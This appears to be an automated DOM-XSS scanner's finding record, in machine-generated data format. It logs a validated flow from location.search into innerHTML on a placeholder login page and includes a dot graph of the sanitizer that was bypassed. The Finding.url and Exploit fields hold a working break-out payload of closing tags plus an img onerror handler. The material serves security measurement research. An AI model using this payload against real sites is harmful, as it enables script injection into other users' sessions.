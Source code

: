 // Finding: 334a3501-c6c8-42f3-ae1b-dd51dde2880d
// Finding.url: https://app.example210.com/login?source=GNlogin"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('d18fc925d22b4be6a895527c9184178e')><!--/*
// Finding.parentloc: https://app.example210.com/login?source=GNlogin"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('d18fc925d22b4be6a895527c9184178e')><!--/*
// Finding.domain: app.example210.com
// Finding.base_domain: example210.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: k
// Sanitizer.location: https://app.example210.com/signUp-263ff9b86e0c6bb3986a.js - U8DB/</<:1:193187
// Finding.begin: 11412
// Finding.end: 11548
// Finding.original_uuid: 6d7a9b00-8e7b-42b3-b9df-bd907daa2a27
// Finding.TwentyFiveMillionFlowsId: -1801666750
// Finding.script: https://app.example210.com/vendorSignUp-05165ae781a697a227f7.js
// Finding.line: 1
// Exploit.uuid: d18fc925-d22b-4be6-a895-527c9184178e
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: value
// Exploit.quote_type: "
// Exploit.tag: input
// Exploit.break_out: GNlogin"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: GNlogin"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 38
// Exploit.end_taint_url: 45
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 45
// Exploit.replace_begin_param: 10210
// Exploit.replace_end_param: 10217
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1231961301
// DepGraph.sanitizer_hash: 1248797906

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="trim"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="str_replace_once"];
n4 [shape=box, label="RegExp: /^[?#&]/"];
n5 [shape=box, label="Lit: "];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="preg_replace"];
n8 [shape=box, label="RegExp: /\+/"];
n9 [shape=box, label="Lit:  "];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="substr"];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Lit: 7"];
n14 [shape=box, label="Var: x"];
n15 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n6 -> n1;
n3 -> n4;
n3 -> n5;
n3 -> n6;
n10 -> n3;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n12 -> n7;
n11 -> n12;
n11 -> n13;
n14 -> n11;
n15 -> n14;
}